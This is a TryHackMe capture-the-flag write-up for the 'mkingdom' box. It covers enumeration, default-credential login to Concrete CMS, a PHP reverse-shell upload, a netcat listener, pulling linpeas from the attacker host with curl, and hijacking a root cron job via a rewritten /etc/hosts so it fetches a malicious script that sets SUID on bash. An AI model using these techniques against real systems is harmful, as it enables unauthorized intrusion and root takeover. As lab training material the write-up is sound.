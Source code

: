 ```yaml
---
layout: post
title:  "TryHackMe: mkingdom"
description: Beginner-friendly box inspired by a certain mustache man.
date:   2024-07-08 11:43:59 +0100
categories: jekyll update
---
```


# mkingdom :
```sh
export IP= M-ip
```
# Enumeration:

I found the Port 85 referring to HTTP instead of 80.

```sh
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-09-20 18:42 EDT
Scanning 10.10.198.213 [4 ports]
Nmap scan report for 10.10.198.213
Host is up, received echo-reply ttl 63 (0.092s latency).
Scanned at 2024-09-20 18:42:40 EDT for 13s
Not shown: 999 closed tcp ports (reset)
PORT   STATE SERVICE REASON         VERSION
85/tcp open  http    syn-ack ttl 63 Apache httpd 2.4.7 ((Ubuntu))
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-server-header: Apache/2.4.7 (Ubuntu)
|_http-title: 0H N0! PWN3D 4G4IN

NSE: Script Post-scanning.
Completed NSE at 18:42, 0.00s elapsed
NSE: Starting runlevel 3 (of 3) scan.
Initiating NSE at 18:42
Completed NSE at 18:42, 0.00s elapsed
Read data files from: /usr/bin/../share/nmap
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 12.78 seconds
           Raw packets sent: 1037 (45.604KB) | Rcvd: 1008 (40.312KB)
```
 
# Directory bruteforcing:

I found his /app directory that contain the web app with the concrete cms 8.5.2, this version has a CVE-2020-11476.

```sh
gobuster dir --url http://10.10.198.213:85/ -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
```
```sh
/app                  (Status: 301) [Size: 314] [--> http://10.10.198.213:85/app/]
```

![Screenshot_1](https://github.com/user-attachments/assets/4f368621-4827-4a50-977b-623e5a3b9cf6)

I checked the Blog to see if i can find some users .

![Screenshot_2](https://github.com/user-attachments/assets/2604c4b7-bae8-429e-bc76-78ef13368784)

I found this user 

![Screenshot_3](https://github.com/user-attachments/assets/3bd15567-9cb4-4f04-8508-c8d179095415)

I attempted some default passwords for the 'admin' user, and it turns out the password is simply 'password'.

![Screenshot_9](https://github.com/user-attachments/assets/8bc6a101-ba04-4266-802f-d4ee6a561831)

As previously mentioned, Concrete CMS version 8.5.2 has a vulnerability that allowed me to add an extension, enabling the upload of PHP file types to the machine.

![Screenshot_4](https://github.com/user-attachments/assets/97b5b439-0527-4a2c-84a9-bc248cb2f7ff)
![Screenshot_5](https://github.com/user-attachments/assets/0e70e322-77f6-4f0b-a804-66bfa7bf1c61)

I successfully uploaded a PHP reverse shell to the target machine and obtained the IP address needed to execute it.

![Screenshot_6](https://github.com/user-attachments/assets/fa29c9fc-e852-459c-bfe7-f8a408e90060)
![Screenshot_7](https://github.com/user-attachments/assets/17ba45cc-0a26-431f-9ddf-8b394456760c)

# Initial access :
```sh
 nc -lvnp 9999   
```                       
```sh
listening on [any] 9999 ...
connect to [10.9.0.17] from (UNKNOWN) [10.10.198.213] 55916
Linux mkingdom.thm 4.4.0-148-generic #174~14.04.1-Ubuntu SMP Thu May 9 08:17:37 UTC 2019 x86_64 x86_64 x86_64 GNU/Linux
 19:05:35 up 35 min,  0 users,  load average: 0.00, 0.00, 0.00
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
uid=33(www-data) gid=33(www-data) groups=33(www-data),1003(web)
```
I used linpeas to enumerate the machine 

```sh
Attacker Machine
python3 -m http.server 80
Victim Machine
curl http://attackerIP/linpeas.sh -o linpeas.sh 
./linpeas.sh
```
While inspecting the application configuration for Concrete CMS version 8.5.2, I discovered the password for the user 'toad' stored in the configuration file.

![Screenshot_11](https://github.com/user-attachments/assets/0720af85-e3b0-4c3b-9f2e-d7058ef7685d)

After extensive enumeration, I discovered that the password for the user 'mario' is stored within the environment variables.

![Screenshot_12](https://github.com/user-attachments/assets/265fc5aa-47c5-4814-ab52-d1be3675cd12)

```sh
echo 'aWthVGVOVEFOdEVTCg==' |base64 -d                         
ikaTeNTANtES   => mario password
```
I used pspy to snoop on processes without need for root permissions, by doing this i got this running crons.

![Screenshot_13](https://github.com/user-attachments/assets/45810ebc-b52a-485e-ae94-cfbf8bb7b56e)

/bin/cat has SUID permissions, meaning it can be executed with the privileges of the file owner (likely root).
/etc/hosts is owned by the user mario
![Screenshot_14](https://github.com/user-attachments/assets/d8fc746c-8ac9-4db3-b6aa-8ccd89de4b98)
![Screenshot_15](https://github.com/user-attachments/assets/296423a4-e5f0-4bfa-8996-4d0855d6766b)

I replaced the localhost ip with our vpn ip to use it further.

```sh
awk '{gsub("127.0.1.1\tmkingdom.thm", "AttackerIP\t\tmkingdom.thm"); print}' /etc/hosts > /tmp/replace_hosts
```
I then utilized the SUID-enabled /bin/cat to write the contents of /tmp/replace_hosts to /etc/hosts, resulting in the file being modified to look like this:

```sh
mario@mkingdom:~$ cat /tmp/replace_hosts  > /etc/hosts
mario@mkingdom:~$ cat /etc/hosts
127.0.0.1	localhost
AttackerIP		mkingdom.thm
127.0.0.1	backgroundimages.concrete5.org
127.0.0.1       www.concrete5.org
127.0.0.1       newsflow.concrete5.org

# The following lines are desirable for IPv6 capable hosts
::1     ip6-localhost ip6-loopback
fe00::0 ip6-localnet
ff00::0 ip6-mcastprefix
ff02::1 ip6-allnod
```

Since counter.sh is executed automatically via cron, we could manipulate it to run commands of our choice.

With write access to /etc/hosts, we can modify entries to redirect network requests or disrupt normal hostname resolution.

The /etc/cat file, with SUID permissions, allows us to execute it as the file owner (likely root), which can be exploited to read or manipulate sensitive files.

1. Create a counterfeit directory on the attacker machine:
We will replicate the directory structure where counter.sh is located on the victim machine inside the /tmp directory on our attacker machine. This will allow us to host our counterfeit version of counter.sh.
```sh
mkdir -p /tmp/app/castle/application
vim /tmp/app/castle/application/counter.sh
```

```sh

#! /usr/bin/env bash

chmod 4755 /bin/bash
```

2. Host a fake script using Python's HTTP server:
Using Python’s http.server, we can set up a simple web server on the same port that the victim machine is likely to connect to. This will trick the victim into downloading our malicious script instead of the original one.

```sh
sudo python3 -m http.server 85 --direcotry /tmp
```

3. Replace the real counter.sh on the victim machine:
By getting the cron job to download our counterfeit script from our attack machine, we can replace the original counter.sh with our own, gaining control over what commands it executes when the cron job runs.

![Screenshot_16](https://github.com/user-attachments/assets/c2d228f2-4497-4e77-b84e-a5839a271836)

Gaining root access 

![Screenshot_17](https://github.com/user-attachments/assets/b7c08f9e-2f85-4f16-b9a1-ac1bf4ba3a3c)
